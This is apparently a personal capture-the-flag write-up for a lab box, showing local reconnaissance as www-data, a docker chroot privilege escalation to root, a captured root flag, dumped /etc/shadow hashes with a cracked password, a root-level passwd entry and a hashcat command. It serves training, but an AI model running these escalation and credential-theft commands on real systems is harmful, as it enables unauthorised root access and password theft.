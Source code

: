 
I think now we got the shell of this box let's do some recon and see what we can do
![[Pasted image 20240818125838.png]]


```
c43l:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:0:0:root:/root:/bin/bash
```


```
www-data@ip-10-201-11-33:/var/www$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh
```


```
www-data@ip-10-201-11-33:/var/www$ env
env
PWD=/var/www
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=2806c7ef0c06427c965da7c8024dbae2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
TERM=xterm
term=xterm
APACHE_RUN_GROUP=www-data
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=3
LC_CTYPE=C.UTF-8
APACHE_RUN_DIR=/var/run/apache2
JOURNAL_STREAM=9:23813
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/var/www/html
_=/usr/bin/env
```


```
www-data@ip-10-201-11-33:/var/www$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
www-data@ip-10-201-11-33:/var/www$ 
```


```
www-data@ip-10-201-11-33:/var/www$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

## So it's time to get privilege escalation escalation

Docker
```
docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```

![[Pasted image 20240818160415.png]]

We got the root access but the wrong once so will again access the right docker (i.e. ubuntu 18.04)
```
docker run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```

I was not able to find the root flag so we have repository name with ubuntu 18.04


So this time we get the right shell and got the root.txt so i have to keep this in mind that it was a loop hole and i have to do some smart work and choose the right way
```
# cat root.txt
cat root.txt
HOLO{e16581b01d445a05adb2e6d45eb373f7}
```


I have cat the /etc/shadow and got some hashes
```
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
```

```
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```

We have the linux password
```
linuxrulez
```

## Hashcat

```
.\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```



Let's see if we can get the .ssh keys fingers closed
```

```


